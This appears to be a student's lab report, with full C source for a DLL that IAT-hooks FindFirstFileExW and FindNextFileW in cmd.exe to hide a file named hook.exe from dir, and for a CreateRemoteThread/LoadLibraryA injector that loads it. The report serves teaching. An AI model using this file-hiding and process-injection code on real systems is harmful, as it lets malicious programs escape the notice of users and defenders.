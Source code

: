 # 期末作业

## 实验目的

---

更改dir时调用的`FindFirstFile`，每次出现"hook.exe"便抹掉此结果，使得cmd的dir命令看不到目录下的hook.exe

## 实验环境

---

* 虚拟机windows7环境
* 32位cmd

## 实验过程

---

* 分析：通过查询资料，windows系统在dir时调用的函数为`FindFirstFileExW`和`FindNextFileW`，查询这两个函数详细资料如下，dir显示目录下文件时调用了一次`FindFirstFileExW`和多次`FindNextFileW`，所以使用这两个函数进行hook

```c++
HANDLE WINAPI FindFirstFile(
	LPCSTR             lpFileName,//  查找的文件类型。例如:.txt,.ini,.cpp等后缀
	LPWIN32_FIND_DATA  lpFindFileData,//得到当前所杳找文件的一些属性，包括文件名，文件大小创建时间等
);//根据文件名查找文件，函数执行成功返回一个搜索句柄

BOOL FindNextFile(
  HANDLE hFindFile,                            //FindFirstFile返回的HANDLE
  LPWIN32_FIND_DATA lpFindFileData            //所杳找文件的一些属性
);//成功返回非零，失败返回零

typedef struct _WIN32_FIND_DATA 
{
   DWORD dwFileAttributes; //文件属性
   FILETIME ftCreationTime; // 文件创建时间
   FILETIME ftLastAccessTime; // 文件最后一次访问时间
   FILETIME ftLastWriteTime; // 文件最后一次修改时间
   DWORD nFileSizeHigh; // 文件长度高32位
   DWORD nFileSizeLow; // 文件长度低32位
   DWORD dwReserved0; // 系统保留
   DWORD dwReserved1; // 系统保留
   TCHAR cFileName[ MAX_PATH ]; // 长文件名（最多可达 255 个字符的长文件名），带句点和扩展名
   TCHAR cAlternateFileName[ 14 ]; //8.3格式文件名（句点前最多有8个字符，而扩展名最多可以有3个字符）
} WIN32_FIND_DATA, *PWIN32_FIND_DATA;
```

* 编写dllmain.cpp，其中hook的函数需更改为`FindFirstFileExW`和`FindNextFileW`

```c
#include <windows.h>

#define FILENAME "hook.exe"
LONG IATHook(
	__in_opt void* pImageBase,
	__in_opt const char* pszImportDllName,
	__in const char* pszRoutineName,
	__in void* pFakeRoutine,
	__out HANDLE* phHook
);
LONG UnIATHook(__in HANDLE hHook);
void* GetIATHookOrign(__in HANDLE hHook);
typedef HANDLE(__stdcall *LPFN_FindFirstFileExW)(
	LPCSTR             lpFileName,
	FINDEX_INFO_LEVELS fInfoLevelId,
	LPVOID             lpFindFileData,
	FINDEX_SEARCH_OPS  fSearchOp,
	LPVOID             lpSearchFilter,
	DWORD              dwAdditionalFlags
	);
typedef BOOL(__stdcall *LPFN_FindNextFileW)(
	HANDLE             hFindFile,
	LPWIN32_FIND_DATAW lpFindFileData
	);
HANDLE g_hHook_FindFirstFileExW = NULL;
HANDLE g_hHook_FindNextFileW = NULL;
HANDLE __stdcall Fake_FindFirstFileExW(
	LPCSTR             lpFileName,
	FINDEX_INFO_LEVELS fInfoLevelId,
	LPVOID             lpFindFileData,
	FINDEX_SEARCH_OPS  fSearchOp,
	LPVOID             lpSearchFilter,
	DWORD              dwAdditionalFlags
){
	LPFN_FindFirstFileExW fnOrigin = (LPFN_FindFirstFileExW)GetIATHookOrign(g_hHook_FindFirstFileExW);
	HANDLE hFindFile = fnOrigin(lpFileName, fInfoLevelId, lpFindFileData, fSearchOp, lpSearchFilter, dwAdditionalFlags);
	while (0 == wcscmp(((WIN32_FIND_DATA*)lpFindFileData)->cFileName, TEXT(FILENAME))) {
		FindNextFileW(hFindFile, (LPWIN32_FIND_DATA)lpFindFileData);
	}
	return hFindFile;
}

BOOL __stdcall Fake_FindNextFileW(
	HANDLE             hFindFile,
	LPWIN32_FIND_DATAW lpFindFileData
) {
	LPFN_FindNextFileW fnOrigin = (LPFN_FindNextFileW)GetIATHookOrign(g_hHook_FindNextFileW);
	BOOL rv = fnOrigin(hFindFile, lpFindFileData);
	if (0 == wcscmp(((WIN32_FIND_DATA*)lpFindFileData)->cFileName, TEXT(FILENAME))) {
		rv = fnOrigin(hFindFile, lpFindFileData);
	}
	return rv;
}

BOOL WINAPI DllMain(HINSTANCE hinstDll, DWORD dwReason, LPVOID lpvRevered) {
	switch (dwReason) {
	case DLL_PROCESS_ATTACH:
		IATHook(
			GetModuleHandle(NULL),
			"kernel32.dll",
			"FindFirstFileExW",
			Fake_FindFirstFileExW,
			&g_hHook_FindFirstFileExW
		);
		IATHook(
			GetModuleHandle(NULL),
			"kernel32.dll",
			"FindNextFileW",
			Fake_FindNextFileW,
			&g_hHook_FindNextFileW
		);
		break;
	case DLL_PROCESS_DETACH:
		UnIATHook(g_hHook_FindFirstFileExW);
		UnIATHook(g_hHook_FindNextFileW);
		break;
	}
	return TRUE;
}
```

* 将.cpp文件编译生成为dll文件,将其放入c盘下

* 编写Inject.cpp，将注入的进程修改为cmd.exe

```c
#include <windows.h>
#include <stdio.h>
#include <tlhelp32.h>

int main() {
	char szDllName[] = "C:\\HookFindFileW.dll";
	char szExeName[] = "cmd.exe";

	/* Step 1 */
	PROCESSENTRY32 ProcessEntry = {};
	ProcessEntry.dwSize = sizeof(PROCESSENTRY32);
	HANDLE hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	bool bRet = Process32First(hProcessSnap, &ProcessEntry);
	DWORD dwProcessId = 0;
	while (bRet) {
		if (strcmp(szExeName, ProcessEntry.szExeFile) == 0) {
			dwProcessId = ProcessEntry.th32ProcessID;
			break;
		}
		bRet = Process32Next(hProcessSnap, &ProcessEntry);
	}
	if (0 == dwProcessId) {
		return 1;
	}

	/* Step 2 */
	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwProcessId);
	if (0 == hProcess) {
		return 1;
	}

	/* Step 3 */
	size_t length = strlen(szDllName) + 1;
	char * pszDllFile = (char *)VirtualAllocEx(hProcess, NULL, length, MEM_COMMIT, PAGE_READWRITE);
	if (0 == pszDllFile) {
		return 1;
	}

	/* Step 4 */
	if (!WriteProcessMemory(hProcess, (PVOID)pszDllFile, (PVOID)szDllName, length, NULL)) {
		return 1;
	}

	/* Step 5 */
	PTHREAD_START_ROUTINE pfnThreadRtn = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle("kernel32"), "LoadLibraryA");
	if (0 == pfnThreadRtn) {
		return 1;
	}

	/* Step 6 */
	HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, pfnThreadRtn, (PVOID)pszDllFile, 0, NULL);
	if (0 == hThread) {
		return 1;
	}

	/* Step 7 */
	WaitForSingleObject(hThread, INFINITE);
    printf("远程线程执行完毕!\n");
	VirtualFreeEx(hProcess, (PVOID)pszDllFile, 0, MEM_RELEASE);
	CloseHandle(hThread);
	CloseHandle(hProcess);

	return 0;
}
```

* 实验结果截图如下

在虚拟机中运行编译链接后的inject.exe

<img src="image/1.png" />

<img src="image/2.png" />

## 参考资料

1.[**利用FindFirstFile和FindNextFile查找文件或遍历文件夹**](https://blog.csdn.net/milanleon/article/details/18222197)

2.[**Windows API| Microsoft Docs**](https://docs.microsoft.com/en-us/previous-versions/aa914391(v%3dmsdn.10))

3.[**injectAllTheThings**](https://github.com/fdiskyou/injectAllTheThings)

4.**[iathook](https://github.com/tinysec/iathook)**